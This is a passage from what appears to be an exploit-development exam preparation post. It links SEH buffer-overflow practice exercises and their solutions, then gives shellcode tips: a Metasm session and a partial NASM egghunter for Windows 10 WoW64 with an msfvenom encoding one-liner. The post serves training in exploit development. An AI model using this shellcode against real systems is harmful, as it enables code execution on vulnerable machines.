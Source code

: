I have first try to replicate the exploits shown in the course and after that I search on [Exploit-DB](https://www.exploit-db.com/) for other exercises to practice with.

Here you can find a [list of exploits](https://github.com/phra/seh-exploits) (re)solved by me during my preparation that I suggest to try yourself:

- [docPrint Pro 8.0 - SEH Buffer Overflow](https://www.exploit-db.com/exploits/47394) - [(solution)](https://github.com/phra/seh-exploits/tree/master/docprint)
- [Foxit Reader 4.1.1 - Local Stack Overflow](https://www.exploit-db.com/exploits/15542) - [(solution)](https://github.com/phra/seh-exploits/tree/master/foxit-reader)
- [LanSpy 2.0.1.159 - Buffer Overflow](https://github.com/phra/seh-exploits/tree/master/lanspy) - [(solution)](https://www.exploit-db.com/exploits/46018)
- [QuickZip 4.x - '.zip' Local Universal Buffer Overflow](https://www.exploit-db.com/exploits/11656) - [(solution for win10 wow64)](https://github.com/phra/seh-exploits/tree/master/quickzip) [(nice writeup by knapsy)](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/)
- [Vulnserver Exploiting GMON with SEH Overwrite](https://anubissec.github.io/Vulnserver-Exploiting-GMON-SEH-Overwrite/#) - [(solution)](https://github.com/phra/seh-exploits/tree/master/vulnserver)

## General Tips

Here there are some tips'n'tricks discovered during the preparation that I would like to share with the future candidates that can help to save some time in manual, repetitive tasks.

### Shellcode Generation

There are a lot of ways to generate shellcode from assembly instructions. Personally, I have used the [Metasm](https://github.com/jjyg/metasm) project to quickly prototype my shellcode and [NASM](https://www.nasm.us/) for more stable and elaborated codes:

- Metasm

```text
$ msf-metasm_shell
type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file

metasm > je $-99; jne $-97;
"\x74\x9b\x75\x9d"
```

- NASM

```nasm
; egghunter win10 wow64
; tested on Microsoft Windows 1809 [Version 10.0.17763.805]
; build it with:
; nasm -felf32 egghunter.asm -o egghunter.o && for i in $(objdump -d ./egghunter.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$') ; do echo -ne "\x$i" ; done | msfvenom -p- --arch x86 --platform windows -e x86/alpha_mixed BUFFERREGISTER=eax

BITS 32
global _start
section .text

_start:
    mov    ebx, cs
    cmp    bl, 0x23
    xor    edx, edx
page_invalid:
    or     dx, 0xfff
page_valid:
    xor    ebx, ebx
    inc    edx
    push   ebx ; added
    push   ebx ; added
```
